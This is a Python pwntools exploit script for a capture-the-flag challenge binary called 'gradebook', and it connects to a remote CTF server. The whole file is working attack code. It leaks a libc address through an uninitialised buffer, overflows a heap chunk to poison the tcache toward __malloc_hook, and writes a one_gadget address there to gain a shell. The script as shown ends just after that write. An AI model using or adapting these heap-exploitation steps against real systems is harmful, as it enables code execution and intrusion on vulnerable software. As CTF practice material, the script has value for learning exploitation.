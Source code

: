 ```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./gradebook")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe


def conn():
    if args.LOCAL:
        return process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
    else:
        return remote("ctf.k3rn3l4rmy.com", 2250)

def main():
    r = conn()
    r.sendline("1")
    r.sendline("a1")
    r.sendline("1250")
    r.sendline("a"*20)
    r.recvuntil("Exit Gradebook")
    r.sendline("1")
    r.sendline("a2")
    r.sendline("10")
    r.sendline("hi")
    r.recvuntil("Exit Gradebook")
    # I encountered a bit of a race condition, which is weird
    time.sleep(1)
    r.sendline("5")
    r.recvuntil("Exit Gradebook")
    r.sendline("1")
    r.sendline("b1")
    r.sendline("1250")
    r.sendline("a"*7)
    r.recvuntil("Exit Gradebook")
    r.sendline("2")
    r.recvuntil("NAME: aaaaaaa\n")
    d = r.recvuntil("STUDENT ID")
    data = d.split(b"\n")[0]+b"\0\0"
    print(data)
    leak = u64(data)
    
    libc_addr = leak - 2014176
    print(hex(libc_addr))
    libc.address = libc_addr
    
    r.sendline("3")
    r.sendline("b1")
    r.sendline(str(0xaaaaaaaaaaaaaa))
    r.recvuntil("Exit Gradebook")
    r.sendline("4")
    r.sendline("b1")
    print(hex(libc.sym.__malloc_hook))
    r.sendline(b"a"*(1256+32)+p64(0x21)+p64(libc.sym.__malloc_hook))
    r.recvuntil("Exit Gradebook")
    r.sendline("1")
    r.sendline("a3")
    r.sendline("20")
    r.sendline(p64(0xe6c81 +libc.address))
    r.recvuntil("Exit Gradebook")
```